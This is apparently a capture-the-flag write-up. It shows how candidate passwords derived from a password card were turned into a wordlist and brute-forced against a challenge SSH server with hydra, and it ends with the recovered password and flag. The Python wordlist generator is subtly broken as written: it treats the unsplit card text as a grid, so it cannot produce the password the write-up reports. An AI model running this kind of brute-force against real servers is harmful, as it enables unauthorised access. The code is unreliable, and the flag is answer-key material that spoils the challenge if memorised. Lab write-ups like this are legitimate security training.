


# Long secure password
## Description


## Solution

In this challenge, a password card, shown below, is provided which, combined with a specified set of rules, is supposed to be used to come up with memorable passwords. This card was also used to choose a password for SSH on the server at `password-card-rules.cypherfix.tcc`.



This card along with the rules only has a quite limited number of passwords it can generate. This fact allows to generate all the possible passwords and then use the generated wordlist to brute force the SSH access password.

One of the hints states that the password is 18 characters long. Using this information the Python code below can generate a wordlist containing all the possible passwords.

```python
card = """
SQUIRELL*JUDGE*NEWS*LESSON
WORRY*UPDATE*SEAFOOD*CROSS
CHAPTER*SPEEDBUMP*CHECKERS
PHONE*HOPE*NOTEBOOK*ORANGE
CARTOONS*CLEAN*TODAY*ENTER
ZEBRA*PATH*VALUABLE*MARINE
VOLUME*REDUCE*LETTUCE*GOAL
BUFFALOS*THE*CATCH*SUPREME
LONG*OCTOPUS*SEASON*SCHEME
CARAVAN*TOBACCO*WORM*XENON
PUPPYLIKE*WHATEVER*POPULAR
SALAD*UNKNOWN*SQUATS*AUDIT
HOUR*NEWBORN*TURN*WORKSHOP
USEFUL*OFFSHORE*TOAST*BOOK
COMPANY*FREQUENCY*NINETEEN
AMOUNT*CREATE*HOUSE*FOREST
BATTERY*GOLDEN*ROOT*WHEELS
SHEEP*HOLIDAY*APPLE*LAWYER
SUMMER*HORSE*WATER*SULPHUR
"""

def generate_strings(matrix, max_len=20):
    rows, cols = len(matrix), len(matrix[0])
    directions = [(0, 1), (1, 0), (0, -1), (-1, 0), (1, 1), (1, -1), (-1, 1), (-1, -1)]
    results = []

    def get_string(r, c, dr, dc, l):
        result = ""
        for i in range(l):
            if 0 <= r < rows and 0 <= c < cols:
                result += matrix[r][c]
                r, c = r + dr, c + dc
            else:
                break
        return result

    for dr, dc in directions:
        for r in range(rows):
            for c in range(cols):
                #for l in range(1, max_len+1):
                s = get_string(r, c, dr, dc, 18)
                if s not in results and len(s) == 18:
                    results.append(s)

    return results

res = generate_strings(card)

with open('wl.txt', 'w') as f:
    f.writelines('\n'.join(res))

```

Once the wordlist is generated, it is only a matter of launching a brute force attack on the victim SSH server, using hydra, like shown below.

```
$ hydra -l futurethinker -P wl.txt ssh://password-card-rules.cypherfix.tcc/ -t 4
```

This attack takes only about a minute and finds a valid password, which is `SAOPUNUKTPHCANEMFW`.


After logging in with the found credentials, the server reveals the flag.



## Flag

`FLAG{uNZm-GGVK-JbxV-1DIx}`